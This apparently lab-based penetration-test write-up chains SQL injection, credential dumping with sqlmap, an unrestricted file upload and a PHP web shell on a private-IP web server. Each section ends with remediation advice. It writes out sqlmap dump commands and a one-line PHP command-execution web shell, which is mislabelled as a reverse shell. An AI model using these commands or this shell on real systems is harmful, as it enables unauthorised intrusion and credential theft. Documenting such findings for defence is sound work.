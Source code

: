 # Vulnerability Report: Authenticated File Upload + SQL Injection in Web Application + RCE

**Severity**: Critical  
**Tools Used**: rustscan, Nikto, SQLMap, Netcat  
**Suspicious Activity Detection & Threat Actor Behavior Simulation**  
**CVE**: Custom Web Application Vulnerability
**Impact**: Remote Code Execution (RCE) via Web Shell  
**Affected Host**: Target Linux Web Server  
**Access Level Gained**: Remote shell with same privileges as web server process  

---

## 1. Vulnerability: SQL Injection on Login Page

**Risk Description**:  
A SQL Injection (SQLi) vulnerability was discovered in the `password` parameter of the login form. This allows an attacker to bypass authentication and extract sensitive data from the backend database.

**Exploitation Method**:
- Initial discovery through manual testing and confirmed using SQLMap.
  ![Screenshot 2025-05-30 230336](https://github.com/user-attachments/assets/2b691c47-a02e-47db-8b2b-e884e2648424)

  - SQLMap can be used now , because it is vulnerable by sqli by manual testing.
  
  ```bash sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password --risk=3 --level=5 --batch```

  ![Screenshot 2025-05-31 204224](https://github.com/user-attachments/assets/bac3fb25-9db2-4ad0-9045-bcb1d8645600)

  
  - SQLMap was used against the login endpoint by specifying the vulnerable parameters and dumped user credentials.
  
  ```bash sqlmap -u "http://192.168.1.45/admin" --data "username=admin&password=admin123" -p password -T users --dump --batch```

  ![Screenshot 2025-05-31 204420](https://github.com/user-attachments/assets/cb14eb27-4781-4aaa-9a0d-59b3ee146c54)

  ![Screenshot 2025-05-31 204548](https://github.com/user-attachments/assets/2d6c0666-069e-48ae-bc5e-49b5fe7839bf)

  
**Recommendation**:
- Use parameterized queries (prepared statements) to prevent SQL injection.
- Validate all user inputs strictly.
- Implement a Web Application Firewall (WAF).
- Regularly update and patch all components of the web application stack.

---

## 2. Vulnerability: Unrestricted File Upload in Admin Panel

**Risk Description**:  
The admin interface allows uploading of files without proper validation or filtering of file extensions. This permits an attacker to upload and execute a web shell on the server.

**Exploitation Method**:
- Used valid credentials (gathered from SQLi) to log into the admin dashboard.
- Uploaded a PHP-based web shell by bypassing client-side file validation.
- Accessed the shell via its URL path, enabling arbitrary command execution.

**PHP Shell**:
 ![image](https://github.com/user-attachments/assets/ce4403a7-781f-41dc-aa93-61df724f5a5c)


![Screenshot 2025-05-31 211505](https://github.com/user-attachments/assets/d0255c20-dce6-4148-a152-5595500cc4ac)


**Recommendation**:
- Restrict uploads to specific safe file types (e.g., `.jpg`, `.png`).
- Validate file MIME types and extensions server-side.
- Store uploads in non-executable directories.
- Disable execution permission on uploaded files.
- Sanitize filenames and scan for malware signatures.

---

## 3. Vulnerability: Remote Code Execution via Reverse Shell

**Risk Description**:  
Using the uploaded PHP shell, an attacker can execute system commands. This leads to full remote code execution and shell access over the network.

**Exploitation Method**:
- Launched a reverse shell from the web shell to the attacker's listener.
- Netcat was used to establish a reverse connection back to the attacker.

  ![image](https://github.com/user-attachments/assets/33e5274a-76dc-49dc-b0c4-cb25c0236174)


**Payload**:
- Reverse shell: ```bash <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>```

  ![Screenshot 2025-05-31 211904](https://github.com/user-attachments/assets/fda305c9-4c7e-4620-b1ad-d1d50f675444)


**Impact**:
- Shell access with privileges of the web server user.
- Potential for lateral movement and further exploitation.

**Recommendation**:
- Prevent execution of user-uploaded content.
- Harden the web server configuration.
- Use AppArmor/SELinux to restrict what processes can do.
- Implement intrusion detection to monitor for reverse shell activity.
- Conduct regular audits and monitor logs for abnormal behaviors.

---
